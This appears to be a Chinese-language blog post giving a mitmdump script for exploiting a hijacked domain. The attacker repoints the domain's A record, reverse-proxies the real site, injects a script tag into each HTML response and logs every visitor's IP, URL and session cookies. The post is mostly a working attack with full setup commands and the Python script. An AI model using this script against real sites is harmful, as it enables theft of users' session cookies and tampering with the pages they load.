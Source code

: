 ```yaml
---
layout:     post
title:      域名劫持后利用脚本
date:       2018-05-29
summary:    域名劫持后利用脚本
categories: web
tags:
 - mitmproxy
 - mitmdump
---
```


### About

本文记录一种在域名劫持后通过mitmproxy进行http会话劫持的利用脚本,该脚本通过mitmdump的反向代理工作模式进行流量劫持.

### Usage

1.通过修改域名的A记录来进行域名劫持

2.在域名的新A记录主机上安装mitmproxy:`pip3 install mitmproxy`

3.在域名的新A记录主机上运行:
    `mitmdump --set allow_remote=true -—listen-host 0.0.0.0 -s xdomain.py --mode reverse:http://xxx.xxx.xxx:80 -p 80`

```
--listen-host代表本地监听ip
--mode reverse代表以反向代理的模式进行工作
--set allow_remote=true代表支持客户端访问的时候是通过代理访问的
运行时需要需要上面命令中的http://xxx.xxx.xxx:80为目标网站地址,且修改下面代码中的http://xxx.xxx.xxx为目标网站地址
```

### Detail

```
import os
import re
import chardet


def request(flow):
    # url=flow.request.url
    # flow.request.headers['User-Agent']='xxx'
    pass


def response(flow):
    url = flow.request.url
    print(url)
    if "http://xxx.xxx.xxx" in url:
        content = flow.response.content
        cookie = flow.request.headers['Cookie']
        ip = str(flow.client_conn.ip_address).split(":")[0]
        bytes_encoding = chardet.detect(content)['encoding']
        origin_html = content.decode(encoding=bytes_encoding, errors="ignore")
        if "</html>" in origin_html:
            insert_xss = '''<script>alert("you're hacked")</script></html>'''
            new_html = origin_html.replace("</html>", insert_xss)
            flow.response.text = new_html
        return_value = {'ip': ip, 'url': url, 'cookie': cookie}
        with open("mitm.log", "a+") as f:
            f.write(str(return_value) + "\n")
```

[download][1]

[1]: https://raw.githubusercontent.com/3xp10it/mytools/master/xdomain.py
